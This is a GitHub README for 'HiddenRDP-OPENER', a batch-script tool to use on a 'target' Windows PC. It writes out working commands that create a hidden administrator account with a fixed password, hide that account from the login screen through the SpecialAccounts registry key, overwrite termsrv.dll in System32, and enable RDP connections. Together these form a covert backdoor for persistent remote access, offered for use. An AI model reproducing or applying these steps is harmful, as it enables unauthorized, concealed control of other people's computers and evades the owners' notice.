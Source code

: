 # HiddenRDP-OPENER
This script make any windows compatible with RDP connection 

<h2>Requirements :</h2>
Windows 7 , Windows 8 , Windows 10 / Not tested yet in Windows XP

<h2>How it works ?:</h2>
This script create a hidden profil ( Administrator privilege ) and change registry parametre to make windows compatible with RDP Connection.

<h2>Configuration:</h2>

You need to open RDPScript.bat with your editor (in your pc)<br />
And make this changes :<br />
<h4>net user hidden 123123 /ADD </h4>
hidden = name of your created account<br />
123123 = password of your account <br />
<h4>xcopy "termsrv.dll" "%windir%\System32\" /s /h /q </h4>
change termsrv.dll with your full path (in pc target) , ex : C:\Users\comix\Downloads\termsrv.dll <br />
move termsrv.dll,RDPScript.bat in the pc target 

<h2>Delete configuration</h2>
Change this value in RDPScript.bat to delete the hidden profile from
<h4>REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v Hidden /t REG_DWORD /d 0X00000000 /f</h4>
To 
<h4>REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v Hidden /t REG_DWORD /d 0X00000001 /f</h4>
then you will be able to see your hidden profil
And change this line 
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0X00000000 /f
to
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0X00000001 /f

<h2>License</h2>

Copyright © 2019 Soufiyan Ak (Comix)
